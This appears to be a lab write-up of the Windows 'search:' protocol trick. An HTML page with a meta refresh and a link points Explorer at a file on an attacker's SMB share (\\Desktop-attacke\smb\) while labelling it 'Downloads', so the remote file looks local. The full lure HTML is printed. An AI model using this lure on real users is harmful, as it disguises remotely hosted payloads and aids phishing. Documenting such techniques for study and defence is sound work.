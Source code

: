 - OS - Windows 10 1909
- Build - 18363.1139
## Setting Up

#### Attacker's Machine
- There is a SMB share set up on the attacker's machine.
- The files are accessible to everyone on the network.![[Pasted image 20240708021919.png]]
- For testing purposes, there is a text file ( Hello.txt )  in the folder.![[Pasted image 20240708024507.png]]

#### Victim's Machine
- The victim machine has a HTML file designed to open up the payload on the attackers machine and disguise it as a local file.
- The HTML file
```HTML
<html>
<head></head>
<body>
    <div id="in-page-channel-node-id" data-channel-name="in-page-channel-cnXeD0"></div>
    <meta http-equiv="Content-Type" content="text/html; charset=utf-8">
    <link rel="icon" href="https://upload.wikimedia.org/wikipedia/commons/4/44/Microsoft_logo.svg">
    <meta property="og:image" content="https://upload.wikimedia.org/wikipedia/commons/4/44/Microsoft_logo.svg">
    <title>Untitled</title>
    <meta http-equiv="refresh" content="0; URL=search:query=Hello.txt&amp;crumb=location:\\Desktop-attacke\smb\&amp;displayname=Downloads"
    <p><a href="search:query=Hello.txt&amp;crumb=location:\\Desktop-attacke\smb\&amp;displayname=Downloads">Hello</p>
</body>
</html>
```


## The Exploit
- Victim opens the HTML file to see a webpage with a popup.![[Pasted image 20240708023819.png]]
- Opening Windows Explorer![[Pasted image 20240708024225.png]]
	1. Windows has searched for "Hello.txt" .
	2. It appears as if the file is in "Downloads" .
	3. The actual location of the file is "\\\\Desktop-attacke\\smb\\Hello.txt"  .

- If the Victim uses a different layout, the actual location will not be visible.![[Pasted image 20240708024753.png]] 